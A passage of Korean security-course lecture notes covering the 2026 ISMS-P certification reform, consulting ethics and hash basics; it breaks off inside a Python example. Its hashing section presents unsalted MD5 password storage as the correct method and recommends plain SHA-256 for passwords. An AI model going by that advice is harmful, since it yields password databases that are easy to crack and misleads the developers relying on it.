# 📝 보안 컨설팅 및 웹 취약점 진단 실습 강의 노트 (5일차)

**강의일**: 2026년 1월 13일
**주제**: ISMS 인증 제도 개편, 웹 취약점 진단 실습, 보고서 작성
**강사**: 권순영 강사님

---

## 🎯 학습 목표 및 개요

### 이번 강의에서 배울 내용

오늘 강의는 크게 세 가지 주제로 구성되어 있습니다:

1. **ISMS 보안 인증 제도의 현황과 개편 방향**
   - 현행 ISMS-P 인증의 문제점
   - 2026년 예정된 제도 개편의 핵심 내용
   - 보안 컨설팅 업계에 미칠 영향

2. **웹 취약점 실습 문제 풀이**
   - 다양한 웹 취약점 유형 실습
   - 실제 공격 시나리오 재현
   - 취약점 발견 및 분석 기법

3. **취약점 점검 보고서 작성**
   - 실무 보고서 양식 및 구조
   - 현황 분석 작성 방법
   - 개선방안 작성의 핵심 (가장 중요!)

### 왜 이 내용을 배우는가?

보안 컨설팅은 단순히 취약점을 찾는 것이 아닙니다. **"어떻게 고쳐야 하는가?"**를 전문적으로 조언하는 것이 컨설팅의 핵심입니다. 오늘 강의를 통해:

- 실무에서 요구되는 보안 컨설팅 역량을 체득합니다
- 기술적 취약점 진단 능력을 키웁니다
- 실전 보고서 작성 능력을 배양합니다

---

## 📰 Section 1: ISMS 보안 인증 제도 개편 동향

### 1.1 배경: ISMS 인증의 현실과 문제점

#### 🔍 ISMS란 무엇인가?

**ISMS (Information Security Management System)**는 정보보호관리체계 인증으로, 한국인터넷진흥원(KISA)에서 운영하는 국내 대표 보안 인증 제도입니다.

**인증 목적:**
- 기업의 정보보호 관리 수준을 객관적으로 평가
- 일정 기준 이상의 보안 체계를 갖추었음을 증명
- 정보보호 관련 법적 요구사항 충족

#### 📌 ISMS의 진화 과정



**제도 통합의 이유:**
- ISMS (정보보호)와 PIMS (개인정보보호)는 유사한 항목이 많음
- 중복 인증으로 인한 기업의 부담 증가
- 통합을 통한 효율성 제고

현재는 **ISMS-P (Information Security Management System - Personal information)**로 통합 운영되고 있습니다.

#### ⚠️ 현행 ISMS의 한계와 비판

최근 쿠팡, 통신사, 카드사 등 ISMS 인증을 받은 대기업들에서 연이어 보안 사고가 발생하면서, **"ISMS 인증이 실효성이 있는가?"**라는 의문이 제기되었습니다.

**주요 문제점:**

1. **서면 심사 중심의 평가 방식**
   - 실제 보안 수준보다는 "서류상" 보안 체계에 의존
   - 문서만 잘 갖추면 인증 취득이 상대적으로 용이
   - 현장 심사도 일부 항목만 샘플링하여 점검

2. **인터뷰 기반 검증의 한계**
   - 인터뷰를 통한 현황 파악은 주관적일 수 있음
   - 실제 운영 상태와 다르게 응답 가능
   - 단기간(며칠) 현장 심사로 전체 시스템을 파악하기 어려움

3. **기술적 검증의 부재**
   - 실제로 시스템이 안전한지 기술적으로 테스트하지 않음
   - 취약점 진단이나 모의침투 테스트 없음
   - 정책과 절차는 있지만, 실제 구현은 미흡할 수 있음

💡 **강사님의 인사이트:**
> "컨설팅을 하는 입장에서도 해의적인 면이 없지 않아 있습니다. 서류상으로는 잘하고 있는 것처럼 만들 수 있지만, 그렇다고 해서 정말로 이 회사가 보안이 잘 될 것인가에 대해서는 조금 의문이 들 수 있습니다."

#### 📊 현행 ISMS-P 평가 항목 구조



**평가 항목 구성:**

| 구분 | 항목 예시 | 평가 방식 |
|:---:|:---|:---|
| **관리체계** | 경영진의 참여, 최고책임자 지정, 자산의 위험평가, 관리체계 점검 | 서면 심사, 인터뷰 |
| **보호대책** | 인증, 네트워크 접근 제어, 암호화 적용, 로그 관리 | 서면 심사, 샘플 점검 |
| **개인정보** | 수집/보관/이용/제공/위탁/파기 단계별 요구사항 | 서면 심사, 인터뷰 |

---

### 1.2 2026년 ISMS 제도 개편의 핵심 내용

#### 🔄 개편의 배경

정부는 연이은 보안 사고를 계기로 **"ISMS 인증의 실효성 강화"**를 목표로 2026년 제도 개편을 추진하고 있습니다.

**개편 추진 동력:**
1. 대형 보안 사고 발생 (쿠팡 사태 등)
2. 인증 기업의 해킹 사고 빈발
3. 인증 제도에 대한 사회적 신뢰 저하
4. 기술적 검증 부재에 대한 지적

#### 📋 개편 전후 비교

**기존 방식 vs. 개편 방식**



#### 🔐 개편의 핵심: 기술심사 도입

가장 큰 변화는 **본심사 전 기술심사 단계 추가**입니다.

**기술심사의 구성:**

1. **취약점 진단 (Vulnerability Assessment)**
   - 시스템, 네트워크, 애플리케이션 취약점 점검
   - 자동화 도구 및 수동 점검 병행
   - 발견된 취약점에 대한 상세 분석

2. **모의침투 테스트 (Penetration Testing)**
   - 실제 해커의 공격 시나리오 재현
   - 시스템 방어 메커니즘의 실효성 검증
   - 침해 가능성 및 영향도 평가

💡 **중요!**
> 기술심사를 통과하지 못하면 본심사로 넘어갈 수 없습니다. 즉, 서류가 아무리 완벽해도 실제 시스템이 안전하지 않으면 인증을 받을 수 없게 됩니다.

#### 📊 기존 vs. 개편 심사 방식 비교표

| 구분 | 기존 방식 | 개편 방식 | 차이점 |
|:---:|:---|:---|:---|
| **평가 중심** | 서면 심사 중심 | 기술심사 + 서면 심사 | 기술적 검증 강화 |
| **취약점 진단** | 없음 | 필수 (예비심사) | 실제 보안 수준 검증 |
| **모의침투** | 없음 | 필수 (예비심사) | 방어 체계 실효성 검증 |
| **심사 난이도** | 상대적으로 용이 | 까다로워짐 | 인증 취득 장벽 상승 |
| **심사 소요기간** | 약 2-3개월 | 약 3-4개월 (예상) | 기술심사 단계 추가 |
| **비용** | 기존 수준 | 증가 예상 | 기술심사 비용 추가 |

#### 📈 인증 의무 기업 확대

개편과 함께 **ISMS 인증 의무 대상 기업도 확대**될 예정입니다.

**현행 의무 대상:**
- 정보통신서비스 제공자 (매출액 100억 원 이상)
- 전년도 3개월 일평균 이용자 수 100만 명 이상
- 클라우드 서비스 제공자

**확대 예상 대상:**
- 매출액 기준 하향 (100억 → 50억 원)
- 특정 산업군 추가 (의료, 금융, 유통 등)
- 개인정보 처리량 기준 추가

---

### 1.3 보안 컨설팅 업계에 미칠 영향

#### 📰 뉴스 기사 분석: "보안 인증 8년 만에 대폭 손질"

강사님께서 소개해주신 기사에 따르면:

> "정부 차원의 정보보호관리체계 인증 ISMS 개편 움직임이 본격화하면서 보안 컨설팅 수요도 늘어날 전망이다."

**컨설팅 수요 증가 이유:**

1. **기술심사 대응 수요**
   - 기업들이 기술심사를 통과하기 위해 사전 취약점 진단 필요
   - 모의침투 테스트 대비 필요
   - 발견된 취약점에 대한 개선 컨설팅 수요

2. **의무 대상 기업 확대**
   - 신규로 인증 의무가 부여되는 기업 증가
   - 기존 미인증 기업들의 인증 준비 수요 발생

3. **기술 역량 강화 필요성**
   - 서류 작성만으로는 부족
   - 실제 시스템 보안 강화 필요
   - 기술 컨설팅 수요 증가

#### 💼 컨설팅 업계의 기회



💡 **강사님의 조언:**
> "여러분 입장에서는 보안 컨설팅 쪽에 수요가 늘어나면 사람을 더 많이 뽑아야 되니까 어쨌든 좋은 거죠. 해킹 사고가 많이 나는 덕분에 보안 쪽의 수요가 늘어나고 있습니다."

#### 🎓 필요 역량의 변화

**기존 컨설턴트에게 요구되던 역량:**
- ISMS 인증 항목 이해
- 법적 요구사항 파악
- 정책/절차 문서화 능력
- 인터뷰 및 현황 파악 능력

**개편 후 추가로 요구되는 역량:**
- ✅ 취약점 진단 기술
- ✅ 모의침투 기법
- ✅ 시스템/네트워크 보안 지식
- ✅ 개발 언어 및 프레임워크 이해
- ✅ 보안 솔루션 활용 능력

📌 **노트:**
> 강사님: "여러분이 컨설팅을 하는 사람이라도 '저는 취약점 진단이 아닌데요'라고 할 수 있지만, 앞으로 이런 게 강조되니까 취약점 진단이나 모의해킹 쪽에 지식이 많으면 더 좋겠죠. 물론 실제로 일을 할 때는 취약점 진단 쪽 하시는 분들이 요구를 할 거고, 모의해킹 하시는 분들이 컨설팅에 들어가서 요 부분에 맡아서 하겠지만, 법적인 부분 관리체계 문서 서류상에 이런 걸 쪽으로 하는 분들도 취약점 진단이나 모의해킹 쪽에 지식이 있으면 훨씬 좋아지겠죠. 경쟁력이 있는 거죠."

#### 📊 보안 업계 채용 시장 전망



**시장 전망:**
- 2026년 개편 시행 전후로 보안 컨설팅 업계 채용 증가 예상
- 기술 역량을 갖춘 인재 선호도 증가
- 취약점 진단 + 컨설팅 복합 역량 보유자 우대

💡 **중요!**
> 지금 보안 수요가 좋을 때입니다. 이 타이밍에 잘 취업을 하시고, 여러분의 역량을 키워나가시면 좋겠습니다.

---

### 1.4 개인적 성찰: 인증 제도의 한계와 컨설팅의 윤리

#### 🤔 강사님의 솔직한 고민

강사님께서는 컨설팅을 하는 입장에서 느끼는 "해의적인 면"에 대해 솔직하게 말씀해주셨습니다.

> "이렇게 우리가 컨설팅을 해서 인증을 취득하게 해주지만, 그렇게 한다고 해서 정말로 이 회사가 보안이 잘 될 것인가에 대해서는 조금 해의적인 면이 있어요."

**인증의 딜레마:**

1. **서류와 현실의 괴리**
   - 서류상으로는 완벽해 보일 수 있음
   - 실제 운영은 서류와 다를 수 있음
   - 인증 심사 시에만 잘하는 척할 수 있음

2. **컨설턴트의 역할**
   - 인증 취득을 돕는 것이 주 업무
   - 하지만 진정한 보안 개선이 목표여야 함
   - 둘 사이의 균형이 중요

3. **제도의 한계**
   - 단기간 심사로 전체를 파악하기 어려움
   - 서면 의존도가 높음
   - 지속적인 모니터링 부재

#### 💼 컨설턴트로서의 올바른 자세

**우리가 지향해야 할 방향:**

1. **형식보다 실질을 추구**
   - 단순히 인증 통과를 위한 컨설팅이 아닌
   - 실제 보안 수준 향상을 위한 컨설팅

2. **기술 역량 강화**
   - 문서 작성 능력뿐만 아니라
   - 실제 취약점을 찾고 개선할 수 있는 능력

3. **지속 가능한 보안 체계 구축**
   - 인증 취득 후에도 유지 가능한 체계
   - 실무자들이 실제로 적용할 수 있는 방안

📌 **노트:**
> 이번 ISMS 개편은 이러한 문제를 개선하기 위한 시도입니다. 기술심사 도입을 통해 "실제로 안전한가?"를 검증하려는 것이죠.

---

## ✅ Section 1 학습 체크리스트

학습한 내용을 확인해봅시다:

- [ ] ISMS-P 인증 제도의 역사와 구조를 이해한다
- [ ] 현행 ISMS의 한계와 문제점을 설명할 수 있다
- [ ] 2026년 개편의 핵심 내용(기술심사 도입)을 파악한다
- [ ] 기존 방식과 개편 방식의 차이를 비교할 수 있다
- [ ] 보안 컨설팅 업계에 미칠 영향을 이해한다
- [ ] 컨설턴트에게 요구되는 역량 변화를 인식한다
- [ ] 인증 제도의 한계와 컨설팅의 윤리를 성찰한다

## 📋 핵심 요약

### 1. ISMS 제도의 변화
- **2002년**: ISMS 최초 도입
- **2018년**: ISMS-P로 통합 (ISMS + PIMS)
- **2026년**: 기술심사 도입을 포함한 대대적 개편 예정

### 2. 개편의 핵심
- **기술심사 단계 추가**: 취약점 진단 + 모의침투 테스트
- **본심사 전 필수 통과**: 기술심사 통과해야 본심사 진행
- **인증 의무 기업 확대**: 더 많은 기업이 인증 대상이 됨

### 3. 보안 업계 전망
- **컨설팅 수요 증가**: 기술심사 대비 수요 발생
- **인력 채용 확대**: 보안 전문 인력 수요 증가
- **복합 역량 요구**: 컨설팅 + 기술 진단 역량 필요

### 4. 우리의 자세
- 형식보다 실질을 추구하는 컨설턴트
- 기술 역량을 갖춘 보안 전문가
- 지속 가능한 보안 체계를 구축하는 조력자

---

**다음 섹션 예고:**

다음 섹션에서는 오늘 실습에서 자주 등장하는 **Hash의 기초 개념**을 깊이 있게 다룹니다. MD5, SHA-1 등 Hash 알고리즘의 특징과 보안에서의 활용을 이해하고, 실제 문제 풀이에 어떻게 적용되는지 배워보겠습니다.

---
## 🔐 Section 2: Hash 암호화의 기초 개념

### 2.1 Hash란 무엇인가?

#### 📚 Hash의 정의

**Hash (해시)**는 임의의 길이를 가진 데이터를 고정된 길이의 데이터로 변환하는 **일방향 암호화 알고리즘**입니다.



**핵심 포인트:**
- 입력 데이터의 길이는 다양하지만
- 출력(Hash 값)의 길이는 항상 고정됨
- 같은 입력은 항상 같은 Hash 값을 생성

#### 🎯 Hash가 필요한 이유

**문제 상황:** 사용자 비밀번호를 데이터베이스에 저장해야 한다면?

❌ **잘못된 방법**: 평문(Plain Text)으로 저장
```sql
INSERT INTO users (username, password)
VALUES ('user1', 'mypassword123');
```

**문제점:**
- DB가 해킹당하면 모든 비밀번호 노출
- DB 관리자가 모든 사용자의 비밀번호를 볼 수 있음
- 법적/윤리적 문제 발생

✅ **올바른 방법**: Hash로 저장
```sql
INSERT INTO users (username, password_hash)
VALUES ('user1', '482c811da5d5b4bc6d497ffa98491e38');  -- MD5 Hash
```

**장점:**
- DB가 해킹당해도 원본 비밀번호를 알 수 없음
- DB 관리자조차도 사용자의 비밀번호를 알 수 없음
- 로그인 시: 입력받은 비밀번호를 Hash화하여 저장된 Hash와 비교

---

### 2.2 Hash의 핵심 특징

#### 1️⃣ 고정된 길이 출력 (Fixed-Length Output)

**특징:**
- 입력 데이터의 크기와 무관하게 항상 동일한 길이의 Hash 값 생성
- 알고리즘마다 고정된 출력 길이를 가짐

**대표적인 Hash 알고리즘과 출력 길이:**

| Hash 알고리즘 | 출력 길이 (비트) | 출력 길이 (문자) | 16진수 표현 예시 |
|:---:|:---:|:---:|:---|
| **MD5** | 128 bit | 32자 | `5f4dcc3b5aa765d61d8327deb882cf99` |
| **SHA-1** | 160 bit | 40자 | `5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8` |
| **SHA-256** | 256 bit | 64자 | `5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8` |
| **SHA-512** | 512 bit | 128자 | `(생략 - 매우 김)` |

💡 **실습 팁:**
> Hash 값의 길이를 세어보면 어떤 알고리즘인지 추측할 수 있습니다!
> - 32자 → MD5
> - 40자 → SHA-1
> - 64자 → SHA-256

**실습 예제: Hash 길이 세어보기**

```bash
# 문제에서 본 Hash 값
check_hash="3567541b91a81795b1a33b1aeb41e1e8"

# 길이 세기
echo -n "3567541b91a81795b1a33b1aeb41e1e8" | wc -c
# 출력: 32

# 결론: MD5 Hash!
```

#### 2️⃣ 일방향성 (One-way Function)

**특징:**
- Hash 값에서 원본 데이터를 역산할 수 없음
- "암호화"는 가능하지만 "복호화"는 불가능



**왜 역산이 불가능한가?**

Hash 함수는 정보를 **손실(lossy)**시키는 과정을 포함합니다:

1. **비트 연산**: XOR, AND, OR 등의 연산으로 정보 섞기
2. **압축**: 긴 데이터를 짧은 고정 길이로 압축
3. **정보 손실**: 압축 과정에서 원본 정보의 일부가 손실됨

**비유:**
- 고기를 갈아서 햄버거 패티를 만들 수 있지만
- 햄버거 패티에서 원래 고기 조각을 복원할 수 없는 것과 같음

#### 3️⃣ 비가역성 (Irreversibility)

일방향성과 같은 의미로, **다른 말로 비가역성**이라고 표현합니다.

💡 **강사님의 설명:**
> "Hash의 특징은 비가역성, 다른 말로 일방향성, 방향성이라고 얘기를 하죠. 한쪽으로만 간다고. 한쪽으로만 원문이 있고 이거를 Hash로 만듭니다. 반대로 Hash를 가지고 원문을 알 수 있냐? 모른다는 거죠. 그래서 암호화를 지키는 건 가능한데 복호화는 불가능하다."

**용어 정리:**

| 용어 | 의미 | 예시 |
|:---:|:---|:---|
| **암호화 (Encryption)** | 원본 → 암호문 변환 | `password` → `5f4dcc3b...` |
| **복호화 (Decryption)** | 암호문 → 원본 복원 | `5f4dcc3b...` → `password` (불가능!) |
| **일방향 함수** | 암호화만 가능, 복호화 불가능 | Hash 함수 |
| **양방향 암호화** | 암호화와 복호화 모두 가능 | AES, RSA 등 |

#### 4️⃣ 결정론적 (Deterministic)

**특징:**
- 동일한 입력은 항상 동일한 Hash 값을 생성
- 입력이 1비트라도 바뀌면 완전히 다른 Hash 값 생성 (**Avalanche Effect**)

**실험: Avalanche Effect 확인**

```bash
# 원본 문자열
echo -n "password" | md5
# 출력: 5f4dcc3b5aa765d61d8327deb882cf99

# 'p'를 'P'로 변경 (단 1글자만 변경)
echo -n "Password" | md5
# 출력: dc647eb65e6711e155375218212b3964
```

**비교:**
```
password → 5f4dcc3b5aa765d61d8327deb882cf99
Password → dc647eb65e6711e155375218212b3964
           ↑ 완전히 다른 Hash 값!
```

💡 **중요!**
> 단 1비트의 차이도 완전히 다른 Hash 값을 만들어냅니다. 이를 **눈사태 효과(Avalanche Effect)**라고 합니다.

#### 5️⃣ 충돌 저항성 (Collision Resistance)

**이상적인 Hash 함수:**
- 서로 다른 입력에서 같은 Hash 값이 나오지 않아야 함

**현실:**
- 무한한 입력을 유한한 출력으로 매핑하므로 충돌은 불가피
- 하지만 충돌을 찾기가 **매우 어려워야** 함

**충돌(Collision)의 예:**

```
입력1: "hello" → MD5: 5d41402abc4b2a76b9719d911017c592
입력2: "world" → MD5: 7d793037a0760186574b0282f2f435e7

만약 두 입력의 Hash가 같다면? → 충돌 발생!
```

**보안상 문제:**
- 충돌이 쉽게 발견되면 공격자가 악용 가능
- MD5와 SHA-1은 충돌 공격이 발견되어 **보안 용도로 사용 금지**

---

### 2.3 주요 Hash 알고리즘 비교

#### 📊 알고리즘별 특징 및 보안 수준



#### 1️⃣ MD5 (Message Digest Algorithm 5)

**기본 정보:**
- 개발 연도: 1992년
- 개발자: Ronald Rivest (MIT)
- 출력 길이: 128bit (32자 16진수)

**특징:**
- 빠른 연산 속도
- 파일 무결성 검증에 널리 사용됨 (과거)

**보안 취약점:**
- ❌ 2004년: 충돌 공격 발견
- ❌ 2008년: 실용적인 충돌 공격 가능
- ❌ 현재: 보안 용도로 사용 금지

**사용 예시 (비보안 용도):**
```bash
# 파일 무결성 확인 (보안이 중요하지 않은 경우)
md5 file.txt
```

⚠️ **주의:**
> MD5는 비밀번호 해싱이나 보안 용도로 사용하면 안 됩니다! 하지만 CTF 문제나 레거시 시스템에서는 여전히 볼 수 있습니다.

#### 2️⃣ SHA-1 (Secure Hash Algorithm 1)

**기본 정보:**
- 개발 연도: 1995년
- 개발 기관: NSA (미국 국가안보국)
- 출력 길이: 160bit (40자 16진수)

**특징:**
- MD5보다 강화된 보안성
- Git 버전 관리 시스템에서 사용 (과거)

**보안 취약점:**
- ⚠️ 2017년: Google이 실제 충돌 공격 성공 (SHAttered 공격)
- ⚠️ 현재: 단계적 폐기 중

**사용 예시 (비권장):**
```bash
# SHA-1 Hash 생성
echo -n "guest" | shasum
# 출력: 35675e68f4b5af7b995d9205ad0fc43842f16450
```

📌 **노트:**
> 오늘 실습 문제에서 40자 길이의 Hash를 보면 SHA-1입니다. "4567890 1234567890 1234567890 40" 이렇게 세어보면 40자죠.

#### 3️⃣ SHA-256 (Secure Hash Algorithm 256)

**기본 정보:**
- 개발 연도: 2001년
- 개발 기관: NSA
- 출력 길이: 256bit (64자 16진수)
- 계열: SHA-2 패밀리

**특징:**
- ✅ 현재 권장되는 Hash 알고리즘
- ✅ 블록체인(비트코인)에서 사용
- ✅ 충돌 공격이 발견되지 않음

**사용 예시:**
```bash
# SHA-256 Hash 생성
echo -n "password" | shasum -a 256
# 출력: 5e884898da28047151d0e56f8dc6292773603d0d6aabbdd62a11ef721d1542d8
```

💡 **권장 사항:**
> 새로운 시스템을 개발할 때는 SHA-256 이상을 사용하세요!

#### 📊 알고리즘 비교표

| 알고리즘 | 출력 길이 | 개발 연도 | 보안 수준 | 용도 | 권장 여부 |
|:---:|:---:|:---:|:---:|:---|:---:|
| **MD5** | 128bit (32자) | 1992 | ❌ 취약 | 파일 무결성 (비보안) | ❌ 비권장 |
| **SHA-1** | 160bit (40자) | 1995 | ⚠️ 취약 | 레거시 시스템 | ⚠️ 단계적 폐기 |
| **SHA-256** | 256bit (64자) | 2001 | ✅ 안전 | 비밀번호, 블록체인 | ✅ 권장 |
| **SHA-512** | 512bit (128자) | 2001 | ✅ 안전 | 고보안 시스템 | ✅ 권장 |
| **SHA-3** | 가변 | 2015 | ✅ 안전 | 최신 시스템 | ✅ 권장 |

---

### 2.4 Hash의 실무 활용

#### 🔐 1. 비밀번호 저장

**가장 일반적인 용도**: 사용자 비밀번호를 안전하게 저장

**프로세스:**



**코드 예시 (Python):**

```python
import hashlib

